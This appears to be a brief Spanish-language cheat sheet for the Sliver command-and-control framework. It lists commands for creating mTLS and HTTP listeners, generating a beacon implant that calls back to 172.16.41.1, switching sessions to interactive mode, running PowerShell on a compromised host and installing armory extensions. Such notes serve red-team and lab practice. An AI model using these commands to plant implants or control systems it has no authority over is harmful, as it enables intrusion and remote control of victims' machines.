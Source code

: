 ## Listeners
- mtls (para beacons)
- http (para stagers)

``` bash
# Crear un listener
mtls
mtls --host 0.0.0.0 --port 443
# Ver los listeners activos
listeners
```

## Beacons
``` bash
# Crear un implante
generate beacon --mtls 172.16.41.1 --save ~/projects/sliver
# Ver los implantes creados
implants
# Ver las beacons activos
beacons
```

## Sessions
- Azul: NO interactivo
- Rojo: interactivo

```bash
# hablar con un beacon
use ID
# hacerlo interacivo
interactive
# ver las sessiones activas
sessions
# hablar con una session
use ID
```
``` bash
execute -o powershell whoami
```
```bash
# Las tareas de larga duracion se convertiran en jobs
jobs
```

## Armory

```
armory install
```